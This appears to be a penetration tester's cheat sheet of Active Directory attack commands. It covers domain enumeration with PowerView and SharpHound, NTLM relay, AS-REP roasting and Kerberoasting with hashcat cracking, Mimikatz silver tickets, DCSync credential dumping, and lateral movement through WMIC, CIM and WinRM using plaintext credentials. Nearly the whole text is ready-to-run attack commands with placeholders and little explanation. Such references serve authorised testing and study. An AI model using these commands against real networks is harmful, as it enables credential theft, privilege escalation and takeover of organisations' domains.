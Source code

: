 				Get-ObjectAcl -Identity "<GroupName>" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
				Get-NetGroup "Management Department" | select member
				Find-DomainShare (-CheckShareAccess)
	
		
			gpp-decrypt "password" (decrypt local workstation passwords on kali)
			setspn -L <username>
			Get-NetUser -SPN | select samaccountname,serviceprincipalname
			SharpHound: Invoke-BloodHound -CollectionMethod All -OutputDirectory <Folder> -OutputPrefix "<something>"
			net accounts
	
		Exploitation:
			kerbrute
			
			NTLMrelay:
				ntlmrelayx.py -smb2support -t smb//<IP>
	
			Mimikatz:
				crypto::capi
				crypto::cng
			powershell -ep bypass
	
			AS-REP Roasting: impacket-GetNPUsers or Rubeus
				GetNPUsers -dc-ip <IP>  -request -outputfile hashes.asreproast <domain/username>
				or Get-DomainUser -PreauthNotRequired (PowerView) 
				hashcat --help | grep -i "Kerberos"
				sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
				.\Rubeus.exe asreproast /nowrap
				Targeted AS-REP Roasting
			Kerberoasting:
				Rubeus.exe kerberoast /outfile:hashes.kerberoast
				GetUserSPNs -request -dc-ip <IP> <domain/username>
				Invoke-Kerberoast.ps1 (import module and: Invoke-Kerberoast -OutputFormat Hashcat)
			Silver ticket: kerberos::golden /sid:<SID> /domain:<DOMAIN> /ptt /target:web01.domain.local /service:http /rc4:<RC4HASH> /user:<USERNAME>
				SPN password hash: sekurlsa::logonpasswords
				Domain SID of the user: whoami /user
				Target SPN: e.g.:HTTP/web01.domain.local:80
			DCSync:
				lsadump::dcsync /user:<DOMAIN\TARGETUSER>
				impacket-secretsdump -just-dc-user <TARGETUSER> <DOMAIN/USER>:"<PASSWORD>"@<DCIP>
	
			WMIC:
				wmic /node:<IP> /user:<USER> /password:<PASSWORD> process call create "<PROCESS>"
				With Powershell:
					$username = '<USER>';
					$password = '<PASSWORD>';
					$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
					$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
					$options = New-CimSessionOption -Protocol DCOM
					$session = New-Cimsession -ComputerName <IP> -Credential $credential -SessionOption $Options 
					$command = '<PROCESS>';
					Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
			WinRM:
				winrs -r:<HOST> -u:<USER> -p:<PASSWORD> "<COMMAND>"
				With Powershell:
					$username = '<USER>';
					$password = '<Password>';
					$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
					$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
					New-PSSession -ComputerName <IP> -Credential $credential
					